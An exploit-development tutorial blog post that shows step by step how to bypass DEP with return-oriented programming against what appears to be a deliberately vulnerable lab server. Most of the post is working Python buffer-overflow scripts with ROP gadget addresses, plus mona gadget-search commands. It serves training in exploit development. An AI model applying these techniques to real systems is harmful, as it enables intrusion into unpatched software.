 :slug: bypassing-dep/
:date: 2020-08-24
:category: attacks
:subtitle: Running instructions by reference
:tags: osee, training, exploit
:image: cover.png
:alt: Photo by Michael Dziedzic on Unsplash
:description: This post will show how bypass the Data Execution Prevention security mechanism using Return-Oriented Programming.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/pM9pkc9J918

= Bypassing DEP with ROP

In the link:../understanding-dep/[past blog entry], we made an introduction
to what `DEP` (Data Execution Protection) is and how it affected common
buffer overflow exploits.

In this post, we will show a way to bypass `DEP` using Return-Oriented
Programming or `ROP`.

== Return-Oriented Programming (ROP)

When we are writing an exploit to a buffer overflow vulnerability on an
application without `DEP`, we overwrite the saved instruction pointer on the
stack frame of the affected function with a pointer to something like
`JMP ESP` (or any other register pointing to our shellcode) and then put
a shellcode on the stack which is finally executed when the `JMP ESP` is
performed.

With `DEP`, we can't execute instructions on the stack, but we still control
the execution flow, and that is because we write on the `Saved EIP`
of the stack frame.

But what would happen if, instead of overwriting the `Saved EIP` with
a pointer to `JMP ESP`, we overwrite it with a pointer to a `RETN`
instruction? The `RETN` instruction is commonly used in the function epilogues
and will make one thing: Pop the value pointed by `ESP` and use it as the
next instruction pointer or `EIP`. As we control the execution flow and also
can write on the stack, we can do whatever we want. Let's find a `RETN`
instruction first:

[source,bash]
----
!mona find -type instr -s "retn" -p 10 -o
----

This will tell `mona` to find 10 `RETN` instrunctions. The result is:

image::retn1.png[RETN instructions]

Let's take the first one at `62501022` and update the exploit of the
link:../understanding-dep/[previous post]. This time we want to make `EAX`
have the value `0xdeadbeef`:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see what happens:

image::rop1.gif[RETN]

Here's a detail of what happened:

. We put a breakpoint at the address of the `RETN` instruction.
. We executed the exploit.
. The breakpoint was hit.
. When it hits, look carefully at the value pointed by `ESP`: `EE05C031`
. That value is part of the shellcode injected:
.. `xor eax,eax` -> `\x31\xc0`
.. `add eax,0xdeadbeee` -> `\x05\xee\xbe\xad\xde` (the first two bytes)
. When the `RETN` instruction is executed that value `EE05C031` is stored on
`EIP`.

What it means is that we can replace the `EE05C031` bytes with a pointer that
will become the next instruction to be executed!

In our exploit, we want to make `EAX` = `0xdeadbeef` using three
instructions: `xor eax,eax`, `add eax,0xdeadbeee` and `inc eax`. Let's check
if we can find a pointer to the first:

image::find1.gif[RETN]

We could find one at `62501162` that points to `xor eax,eax`.
Let's update our exploit and place that address instead of
the `xor eax,eax` instruction:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 62501162  |.  31C0                  XOR EAX,EAX
    struct.pack('<L', 0x62501162) +
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::rop2.gif[ROP]

Wonderful! Here's what happened:

. The pointer to the `RETN` instruction was reached.
. When the `RETN` ran, it retrieved the value pointed by `ESP` and updated
`EIP` with that.
. In our case, that value was a pointer to a `xor eax,eax` instruction.
. With that, the `xor eax,eax` was successfully executed! We bypassed DEP!

However, there's a problem with that. If you look again at the animation,
the execution flow was diverted to the location on where the `xor eax,eax`
instruction was placed but then, we lost control.

We need to make `EAX = 0xdeadbeee`. There are several ways to do that. We
tried with `xor eax,eax -> add eax,0xdeadbeee' but another way to do it
is to place the value `0xdeadbeee` on top of the stack and then perform a
`pop eax`. We also need to return back to the stack to execute the last
instruction on our shellcode `inc eax` and thus, make `EAX = 0xdeadbeef'.
That means that we need to find an address to a `pop eax` instruction followed
by a `retn`.

image::popeax1.gif[POP EAX]

Bingo! We found it at `625011B4`. Now you see why this is called
Return-Oriented Programming, because we need to always return back to the
stack to fetch the next pointer to our next desired instruction.
Also note that any instruction or set of instructions
followed by a `retn` is called a *Gadget* in `ROP` terms.

Our `pop eax,retn` gadget rely on the stack having the value `0xdeadbeee`
on the top. Let's update our exploit with that:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::popeax2.gif[POP EAX]

Beautiful! We were able to make `EAX = 0xdeadbeee` using `ROP`. Now, the final
step is to find a `inc eax` pointer to make `EAX = 0xdeadbeef`.

image::inceax.png[INC EAX]

We found one at `00402139`. As this is the last instruction of our shellcode,
the NULL byte won't affect the exploit. Let's update the code:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    # 00402139   .  40                    INC EAX
    struct.pack('<L', 0x00402139) +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
aroldan@balrog:~/vulnserv
----

And check it:

image::rop3.gif[ROP]

Success! We were able to make `EAX = 0xdeadbeef` without executing a single
instruction on the stack! We have bypassed `DEP`!

== Using mona to find gadgets

You may notice by now that finding useful gadgets could become something
really tedious. Fortunately for us `mona` has made this task easy for
us. You just need to simply issue the following:

[source,bash]
----
!mona rop
----

And wait for `mona` do the hard work:

image::mona1.gif[Mona ROP]

With that, `mona` will find usable gadgets on the execution environment.
A file called `rop.txt` is placed on the `mona` directory of the debuggee
application containing all the gadgets found. `mona` also generates
proposal of something called `ROP chains`, which is nothing but a set of
ROP gadgets chained together to perform something more complex. I won't spoil
the next blog entry, but that ROP chain will be used later on a more
serious exploitation.

== Conclusions

In this article, we could see a way to bypass the Data Execution Protection
on a modern Windows system. However, the shellcode used here was very basic
and was only for demonstrating the fact that `DEP` can be bypassed.
We will use ROP to create something more complex in the next post.
